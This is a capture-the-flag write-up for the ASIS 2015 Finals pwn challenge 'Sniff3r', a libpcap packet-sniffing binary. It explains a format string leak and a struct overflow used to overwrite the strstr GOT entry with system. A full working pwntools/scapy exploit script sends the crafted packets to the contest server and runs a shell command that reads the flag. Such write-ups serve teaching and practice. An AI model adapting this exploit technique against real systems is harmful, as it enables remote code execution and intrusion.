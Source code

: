 ```yaml
---
layout: post
title: "ASIS 2015 Finals: (pwn200) Sniff3r"
modified: 2015-10-15
tags: asis asis2015finals pwn libpcap
---
```


*This challenge was solved by and the write up was written by one of my teammates, [tukan](https://twitter.com/kapteinemalje)*

We were given an x64 ELF binary and the corresponding libc. It had most protections enabled but still had writeable .got entries. 

Reversing the challenge revealed that:

- the binary sniffs trafic via libpcap.
- processes only icmp and tcp/80 traffic.
- the icmp handler contains an information leak via a format string bug.
- the tcp handler contains a buffer overflow inside the structure allocated for tcp connections, allowing us to modify pointers later used as destination addresses for memcpy calls with attacker-controlled source data.
    
The relevant parts of the struct:

{% highlight c %}
struct connection {
	char hostname[256];
	char *username;
	char *password;
	...
}
{% endhighlight %}

The exploitation plan is as follows:

- leak pointers to libc and the binary from the stack using the format string bug.
- overwrite the username pointer in the connection struct with the address of the strstr .got entry.
- overwrite the strstr got entry (called on attacker-controlled data in the tcp handler) via the address of system from libc.
- read the flag using the the shell command: ". ./flag" (made possible by stderr coming back from the binary)

![alt]({{ site.url }}/images/asis2015finals/sniffer.png)

The flag was:
{% highlight text %}
ASIS{9327c8a200259781799e2a1a4966a371}
{% endhighlight %}

### Exploit

(not stable, you probably have to run multiple times)
    
{% highlight python %}
#! /usr/bin/env python
from pwn import *
from scapy.all import *

# LIVE = False
LIVE = True
def round():
    if LIVE:
        HOST = '185.82.202.66'
        r = remote(HOST, 2222)      # knocking
    else:
        HOST = '192.168.0.22'

    print 'HOST: ', HOST

    context.update(arch='amd64', os='linux')

    def leakit():
        payload = '%x'*10 + 'ZZZ' + '%p' + 'YYY' + '%x'* 6 + 'KKK%pLLL' + '%x'*112  + 'AAA' + '%p' + 'BBB' +'a'*440
        print 'payloadlen: ', len(payload)
        p = sr1(IP(dst=HOST)/ICMP()/payload, timeout=2)
        if not p:
            return None, None, None
        resp = str(p[Raw])
        print 'Resp: ', resp, len(resp)
        cookie = resp.split('ZZZ')[1].split('YYY')[0]
        cookie = int(cookie, 16)
        bin_addr = resp.split('KKK')[1].split('LLL')[0]
        bin_addr = int(bin_addr, 16)
        libc_addr = resp.split('AAA')[1].split('BBB')[0]
        libc_addr = int(libc_addr, 16)

        return bin_addr, libc_addr, cookie


    bin_addr, libc_addr, cookie = leakit()
    if not bin_addr:
        return
    print 'bin: ', hex(bin_addr)
    print 'libc: ', hex(libc_addr)
    print 'Cookie: ', hex(cookie)

    libc_diff = 0x7ffff7833ec5 - 0x00007ffff7812000
    libc_base = libc_addr - libc_diff
    system_offset = 0x0000000000046640
    system = libc_base + system_offset
    bin_diff = 0x182C
    bin_base = bin_addr - bin_diff
    strstr_offset = 0x203128
    strstr = bin_base + strstr_offset


    payload = 'Host: ' + cyclic(256) + p64(strstr) + '\r\nusername=' + p64(system) + '&password=' + 'A'*6 + '\r\n'
    q = send(IP(dst=HOST)/TCP(dport=80)/payload)
    # q = send(IP(dst=HOST)/TCP(dport=80)/'echo kaosdkas > /tmp/lolci #')
    q = send(IP(dst=HOST)/TCP(dport=80)/'. ./flag')
    r.interactive()

round()
{% endhighlight %}